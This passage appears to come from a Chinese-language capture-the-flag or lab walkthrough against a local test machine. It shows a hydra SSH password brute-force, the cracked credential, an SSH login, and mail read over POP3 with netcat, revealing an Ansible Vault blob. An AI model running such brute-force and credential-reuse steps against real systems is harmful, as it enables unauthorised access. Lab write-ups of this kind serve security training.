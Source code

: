 ## SSH密码爆破

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ echo -e "jane\nbert\nroot" > user                                                       
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ hydra -L user -P pass ssh://192.168.205.143 -I -u -e nsr -t 64
...
[22][ssh] host: 192.168.205.143   login: bert   password: jmac92777
```

成功获得bert用户的凭据：`bert:jmac92777`

# 五、初始访问与邮件分析

尝试SSH登录bert用户：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ ssh bert@192.168.205.143          
bert@192.168.205.143's password: 
...
You have mail.
This account is currently not available.
Connection to 192.168.205.143 closed.
```

虽然SSH会话被立即关闭，但提示显示有邮件。使用POP3协议查看邮件：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ nc 192.168.205.143 110
+OK Dovecot (Debian) ready.
User bert
+OK
Pass jmac92777
+OK Logged in.
STAT
+OK 1 1517
retr 1
+OK 1517 octets
```

邮件内容显示Jane发送给Bert的重要信息：

```
Subject: Urgent: Prod Server Credentials for Ansible Playbook
From: jane@poppins
To: bert@poppins

Hi Bert,

I've just finished the new Ansible playbook for the a-27 software deployment on our main production server, `web01.poppins.dsz`. It's ready to go.

The playbook contains some sensitive API keys, so I've encrypted the variables using Ansible Vault. You'll need to use the `ansible-vault decrypt` command to run it.

Here is the vault string you'll need to paste into the `secrets.yml` file.

$ANSIBLE_VAULT;1.1;AES256
66626631636362303332633238373338386634373434646532656534323230333938303331663630
3236333934663930343263363831353138323630393134320a366366393939373636386538336336
34353536656637313762323832643339633234656635326137633439303730373335386536306436
6335363366376634630a326563623737626337353436323565643365333061663661396337613731
3730
```

[WARNING]: No inventory was parsed, only implicit localhost is available